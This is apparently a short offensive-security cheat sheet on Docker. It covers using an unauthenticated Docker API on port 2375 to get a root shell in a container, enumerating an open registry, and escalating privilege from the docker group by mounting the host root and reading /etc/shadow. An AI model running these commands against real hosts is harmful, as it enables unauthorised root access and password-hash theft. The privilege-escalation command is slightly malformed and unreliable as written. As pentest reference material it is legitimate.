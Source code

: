 ```yaml
---
title: "Docker"
description: "Docker commands"
date: 22/09/2020
categories:
 - misc
tags:
 - docker
 - API
---
```



## Docker API

The docker API expose the port `2375`. This API can be used to interact with the docker engine which basically give ou the right to do anything you desire unauthenticated.

To confirm that the host is running Docker you can make a GET requests to `/version` :

```http
http://<host>:<port>/version

{"Platform": {"Name": ""}, "Components": [{"Name": "Engine", "Version": "18.06.1-ce", "Details": {"ApiVersion": "1.38", "Arch": "amd64", "BuildTime": "2018-10-26T23:39:57.000000000+00:00", "Experimental": "false", "GitCommit": "e68fc7a/18.06.1-ce", "GoVersion": "go1.10.3", "KernelVersion": "4.14.47-64.38.amzn2.x86_64", "MinAPIVersion": "1.12", "Os": "linux"}}], "Version": "18.06.1-ce", "ApiVersion": "1.38", "MinAPIVersion": "1.12", "GitCommit": "e68fc7a/18.06.1-ce", "GoVersion": "go1.10.3", "Os": "linux", "Arch": "amd64", "KernelVersion": "4.14.47-64.38.amzn2.x86_64", "BuildTime": "2018-10-26T23:39:57.000000000+00:00"}
```

Then, using the CLI you can execute commands, for instance:
```bash
$ docker -H <host>:<port> ps

CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
be2dd8aa8222        ubuntu:14.04        "bash"              5 years ago         Up 2 seconds                            silly_elion

$ docker -H <host>:<port> exec -it <container_name> /bin/bash
root@abc:/# whoami
root
```


## Registry server

The registry server is deployed on port `5000`. Go to `/v2/_catalog` on your browser to
check if this is a registry server.

```http
http://<host>:5000/v2/_catalog
```

The server responds with the list of repositories:

```json
{"repositories":["repostitory-1"]}
```

You can configure your docker client to connect to this server.

```bash
sudo docker login <host>:5000
```

If there is a custom certificate, then add an exception in `/etc/docker/daemon.json` with:

```json
{
    "insecure-registries":[ "<host>:5000"]
}
```


## Privilege Escalation

If the current user belong to the `docker` group then he can start a container
with a binding to files own by root and read them:

```bash
docker run --it --rm -v /:/mnt alpine:latest /mnt sh
```

Inside the container shell he can read all the files as root:

```bash
cat /etc/shadow
```


## Save image to tar file

```bash
docker save -o output.tar public.ecr.aws/xxx/yyy
```